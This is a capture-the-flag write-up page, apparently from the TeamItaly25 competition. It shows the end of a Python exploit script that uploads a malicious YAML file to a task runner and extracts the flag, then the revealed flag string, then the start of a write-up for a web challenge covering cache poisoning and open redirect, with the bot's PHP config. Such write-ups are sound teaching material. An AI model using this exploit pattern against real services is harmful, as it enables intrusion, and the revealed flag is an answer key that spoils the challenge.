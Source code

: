 ```python
                        if 'TeamItaly{' in line:
                            print(f"FLAG: {line.strip()}")
                            flag_found = True
        
        return flag_found
    else:
        return False

def main():
    session = requests.Session()
    
    if not login(session):
        return
    yaml_content = create_disk_exploit_yaml()
    file_id = upload_malicious_file(session, yaml_content)
    check_task(session, file_id)
    if execute_task(session, file_id):
        if not get_task_logs(session, file_id):
            print("\nFlag not found in output.")

if __name__ == "__main__":
    main()

```

flag: `TeamItaly{n0_w4y_7h4t's_A_s4fe_Ta5k_dce067d8}`

# TeamItaly25 - VibeChallenge (Unintended Solution)
Solves: 4
Tags: #cache-poisoning #openredirect #php
## Description
> A web challenge built on instinct, caffeine, and zero planning. Everything kind of works — and that’s good enough. Follow the vibes. Something might happen.
  
  [https://challenge03.it](https://challenge03.it)
## Overview
Simple website that allows to login, update the user bio and upload images.
## Road to flag
There's a bot that inserts the flag in its bio after navigating to a supplied url:
```php
$actions = [
        'browser' => 'chrome',
        'timeout' => 120,
        'actions' => [
            [ 'type' => 'request', 'url' => $_POST['url'], 'timeout' => 10 ],
            [
                'type' => 'sleep',
                'time' => 10
            ],
            // Register the account
            ['type' => 'request', 'url' => $CHALLENGE_URL . '/register.php', 'timeout' => 20 ],['type' => 'type','element' => 'input#username','value' => $username],['type' => 'click','element' => 'button#submit',],
            [
                'type' => 'sleep',
                'time' => 5
            ],
            // Insert the flag
            ['type' => 'request','url' => $CHALLENGE_URL . '/update_bio.php','timeout' => 20],
```